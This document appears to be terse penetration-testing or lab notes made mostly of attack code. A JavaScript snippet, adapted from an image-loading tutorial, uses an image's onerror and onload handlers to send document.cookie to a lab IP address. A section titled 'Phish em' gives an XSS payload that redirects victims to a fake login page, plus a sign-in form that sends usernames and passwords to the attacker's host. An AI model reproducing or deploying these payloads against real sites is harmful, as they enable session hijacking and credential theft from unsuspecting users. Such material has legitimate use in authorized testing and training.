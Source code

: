 ```javascript 
const image = document.createElement('img');

// 👇️ Local image
// image.setAttribute('src', 'my-img.png');

// 👇️ Remote image
image.setAttribute(
  'src',
  'x',
);


image.onerror = function handleError() {
  fetch("http://192.168.49.191/c?a=" + document.cookie)
  // 👇️ Can set image.src to a backup image here
  // image.src = 'backup-image.png'

  // 👇️ Or hide image
  // image.style.display = 'none';
};

image.onload = function handleImageLoaded() {
    fetch("http://192.168.49.191/c?a=" + document.cookie)
    // 👇️ Can set image.src to a backup image here
    // image.src = 'backup-image.png'
  
    // 👇️ Or hide image
    // image.style.display = 'none';
  };

const box = document.getElementById('box');
box.appendChild(image);
```

![](2022-07-25-13-07-03.png)


### Phish em

- xss with

`<img src='x' onerror='window.location.href="http://192.168.49.105/login3.html"'>`

```html
<form action="http://192.168.49.105/asd" method="GET">
    <h1 class="h3 mb-3 fw-normal">Please sign in</h1>

    <div class="form-floating text-dark">
      <input type="text" class="form-control" id="floatingInput" placeholder="name@example.com" name="username">
      <label for="floatingInput">Username</label>
    </div>
    <div class="form-floating text-dark">
      <input type="password" class="form-control" id="floatingPassword" placeholder="Password" name="password">
      <label for="floatingPassword">Password</label>
    </div>

    <button class="w-100 btn btn-lg btn-primary" type="submit">Sign in</button>
  </form>
```
